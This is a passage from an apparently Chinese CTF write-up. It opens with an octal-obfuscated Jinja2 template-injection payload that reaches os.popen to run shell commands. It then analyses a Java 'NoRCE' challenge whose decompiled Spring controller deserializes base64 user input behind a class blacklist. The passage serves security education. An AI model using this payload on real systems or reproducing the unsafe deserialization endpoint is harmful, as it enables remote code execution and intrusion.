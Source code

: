 ```http
{{''['\137\137\143\154\141\163\163\137\137']['\137\137\155\162\157\137\137']['\137\137\147\145\164\151\164\145\155\137\137'](1)['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()['\160\157\160'](81)['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\137\137\142\165\151\154\164\151\156\163\137\137']['\137\137\151\155\160\157\162\164\137\137']('\157\163')['\160\157\160\145\156']('\154\163')['\162\145\141\144']()}}
```

![image-20221106183839426](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-ee1f1c62fb03d0e2ee7b50b2eb785de63c6de543.png)

NoRCE
-----

查看依赖看到只有除了Spring之外只有一个`5.0.3的mysql-connector-java`, 所以应该就不是直接打纯原生链了, 再看`com.example.demo.utils.MyObjectInputStream`中对反序列化类的过滤, 禁止了下面的类序列化:

1. com.example.demo.bean.Connect (题目给的)
2. java.security.\* (二次反序列化触发)
3. java.rmi.\* (远程加载)

![image-20221107003753712](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-02d0486ca227bb8fc4d6716f7ee028b96717957f.png)

文件结构如下:

![image-20221106214224755](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-f31b9e7f97e55f4e68ecf84115732645e0a693f0.png)

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.example.demo;

import com.example.demo.utils.MyObjectInputStream;
import com.example.demo.utils.tools;
import java.io.ByteArrayInputStream;
import java.io.InputStream;
import java.io.ObjectInputStream;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class IndexController {
    public IndexController() {
    }

    @ResponseBody
    @RequestMapping({"/"})
    public String index() {
        return "wuwuwuwuwuwuwuwu~~~~~~~~~~~~";
    }

    @ResponseBody
    @RequestMapping({"/read"})
    public String readObject(@RequestParam(name = "data",required = true) String data) throws Exception {
        System.out.println(data);
        byte[] bytes = tools.base64Decode(data);
        InputStream inputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new MyObjectInputStream(inputStream);
        String secret = data.substring(0, 6);
        String key = objectInputStream.readUTF();
        System.out.println(secret);
```